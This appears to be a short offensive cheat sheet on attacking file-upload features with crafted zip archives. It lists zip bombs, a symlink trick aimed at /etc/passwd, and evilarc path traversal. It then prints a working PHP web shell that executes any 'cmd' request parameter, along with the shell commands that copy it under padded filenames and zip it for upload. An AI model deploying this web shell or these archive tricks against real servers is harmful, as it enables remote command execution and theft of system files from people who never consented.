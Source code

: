 # zip hacks:

* Zip bombs
* Symlink hacks
  * `ln -s /etc/passwd link`
  * `zip --symlinks test.zip link`
* `python ./evilarc.py` can be used to create a zip with "../" in the path
  * Similar to this: https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/
  * Steps below & modify with Hex Fiend


```
# backdoor.php
<?php
if(isset($_REQUEST['cmd'])){
	$cmd = ($_REQUEST['cmd']);
	system($cmd);
}
?>


root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp backdoor.php $FILE"cmd.php";done
root@s2crew:/tmp# ls *.php
backdoor.php         xxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
xxAcmd.php           xxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
xxAxxAcmd.php        xxAxxAxxAxxAxxAcmd.php  xxAxxAxxAxxAxxAxxAxxAxxAcmd.php
root@s2crew:/tmp# zip cmd.zip xx*.php
  adding: xxAcmd.php (deflated 40%)
  adding: ...
  adding: xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
```

